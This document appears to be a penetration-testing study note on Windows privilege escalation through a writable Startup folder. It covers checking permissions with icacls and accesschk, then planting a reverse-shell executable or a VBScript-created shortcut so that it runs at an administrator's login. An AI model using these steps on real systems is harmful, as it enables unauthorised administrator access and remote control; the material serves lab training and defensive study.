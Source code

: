 | MASK | PERMISSIONS            |     |
| ---- | ---------------------- | --- |
| F    | Full access            |     |
| M    | Modify access          |     |
| RX   | Rad and execute access |     |
| R    | Read-only access       |     |
| W    | Write-only access      |     |

**Detection**  

 Open command prompt and type: 
 
```batch - windows 
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.


**Exploitation**

[[1._Reverse Shells (WIN)#MSFVenom]]  

Copy the generated file, x.exe, to the Windows target.

Place x.exe in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`.  

Logoff.  

Login with the administrator account credentials.

Wait for a session to be created, it may take a few seconds.  


#### Malicious file
CreateShortcut.vbs

```batch - windows
Set oWS = WScript.CreateObject("WScript.Shell")

sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"

Set oLink = oWS.CreateShortcut(sLinkFile)

oLink.TargetPath = "C:\PrivEsc\reverse.exe"

oLink.Save
```

1. Use accesschk.exe to check permissions on the StartUp directory:

```batch - windows
.\accesschk64.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

2. Note that the BUILTIN\Users group has write access to this directory.

3. Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.

4. Run the script using cscript:

```batch - windows
cscript CreateShortcut.vbs
```

5. Start a listener on Kali, then log in as the admin user to trigger the exploit.

![[1._rlwrap]]
